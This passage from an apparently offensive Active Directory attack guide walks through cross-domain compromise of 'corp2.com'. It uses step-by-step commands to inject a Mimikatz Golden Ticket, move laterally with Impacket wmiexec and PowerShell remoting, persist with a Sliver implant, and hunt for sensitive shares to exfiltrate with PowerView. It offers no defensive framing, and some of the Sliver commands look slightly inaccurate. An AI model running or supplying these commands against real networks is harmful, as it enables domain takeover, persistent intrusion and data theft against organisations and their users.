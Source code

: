 - **Inject the Golden Ticket to gain access:**
  ```powershell
  kerberos::ptt golden_ticket.kirbi
  ```

With the Golden Ticket, you now have unrestricted access to resources within `corp2.com`, allowing you to escalate privileges or access sensitive data.

### 5. **Lateral Movement in the Target Domain (corp2.com)**

With administrator-level access in `corp2.com`, you can move laterally between machines or execute commands remotely. Impacket tools or PowerShell can be used for this purpose.

#### Impacket’s `wmiexec` for Remote Code Execution
- **Execute a command on a remote machine:**
  ```bash
  wmiexec.py corp2.com/user:password@target_ip
  ```

#### PowerShell Remoting for Lateral Movement
- **Use PowerShell to execute commands on other machines:**
  ```powershell
  Enter-PSSession -ComputerName target_machine.corp2.com -Credential corp2\Administrator
  ```

### 6. **Establishing Persistence and Covering Tracks**

To maintain persistence, you can either deploy a Sliver implant or use Kerberos tickets to ensure long-term access.

#### Sliver Implant for Persistence
- **Generate an implant for the target domain (`corp2.com`):**
  ```bash
  generate --mtls corp2.com --os windows --http
  ```
- **Deploy the implant on a compromised system and start a session:**
  ```bash
  use beacon
  ```

#### Kerberos Ticket Persistence
- **Use Silver or Golden Tickets to maintain access over time:**
  - **Golden Ticket:** Allows indefinite access to the domain since it uses the `krbtgt` hash, which doesn’t change unless manually reset.
  - **Silver Ticket:** Useful for accessing specific services without triggering Kerberos ticket validation with the Domain Controller.

### 7. **Post-Compromise Enumeration of Sensitive Data**

After gaining domain admin privileges, you can access and exfiltrate sensitive data from the `corp2.com` environment.

#### PowerView for Data Hunting
- **Find sensitive file shares or data:**
  ```powershell
  Invoke-ShareFinder -Domain corp2.com
  ```
- **Enumerate sensitive objects (e.g., privileged users or service accounts):**
  ```powershell
  Get-ADObject -Filter {AdminCount -eq 1} -Domain corp2.com
  ```
